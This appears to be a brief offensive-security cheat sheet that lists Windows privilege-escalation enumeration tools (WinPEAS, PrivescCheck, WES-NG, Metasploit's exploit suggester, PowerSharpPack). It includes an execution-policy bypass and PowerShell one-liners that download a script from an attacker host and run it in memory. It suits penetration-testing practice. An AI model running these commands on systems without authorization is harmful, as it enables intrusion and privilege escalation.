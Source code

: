 ### 1: WinPEAS  Author:https://github.com/carlospolop/PEASS-ng/releases

### 2: Privesccheck (Set -ExecutionPolicy Bypass -Scope process -Force) Author: https://github.com/itm4n/PrivescCheck

### 3: Windows Exploit Suggester - Next Generation (WES-NG) Author: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

### Systeminfo > txt file

### wes.py --update

### 4: Metasploit (multi/recon/local_exploit_suggester)

### 5: PowerSharpPack https://github.com/S3cur3Th1sSh1t/PowerSharpPack

    iex(new-object net.webclient).downloadstring('http://ATTACK_IP:PORT/PowerSharpPack.ps1')

### Then

    PowerSharpPack -winPEAS

### 6: Invoke-WinPEAS https://gist.github.com/S3cur3Th1sSh1t/d14c3a14517fd9fb7150f446312d93e0#file-invoke-winpeas-ps1

    iex(new-object net.webclient).downloadstring('http://10.10.14.5:9999/Invoke-winPEAS.ps1')

    Invoke-winPEAS >> .out
